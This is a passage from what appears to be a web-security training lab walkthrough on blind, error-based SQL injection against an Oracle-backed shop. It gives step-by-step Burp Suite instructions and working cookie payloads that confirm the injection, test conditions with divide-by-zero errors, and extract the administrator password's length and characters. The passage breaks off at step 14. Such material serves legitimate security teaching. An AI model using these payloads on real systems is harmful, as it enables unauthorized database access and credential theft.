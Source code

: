 ### Lab: Blind SQL injection with conditional errors

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2.  Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=xyz'`. Verify that an error message is received.
3.  Now change it to two quotation marks: `TrackingId=xyz''`. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
4.  You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: `TrackingId=xyz'||(SELECT '')||'`. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: `TrackingId=xyz'||(SELECT '' FROM dual)||'`. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.
5.  Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name: `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`. This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.
6.  As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the `users` table exists, send the following query: `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`. As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.
7.  You can also exploit this behavior to test conditions. First, submit the following query: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`. Verify that an error message is received.
8.  Now change it to: `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`. Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
9.  You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.
10.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This condition should be true, confirming that the password is greater than 1 character in length.
11.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Then send: `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
12.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
13.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14.  In the Positions tab, change the value of the cookie to: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.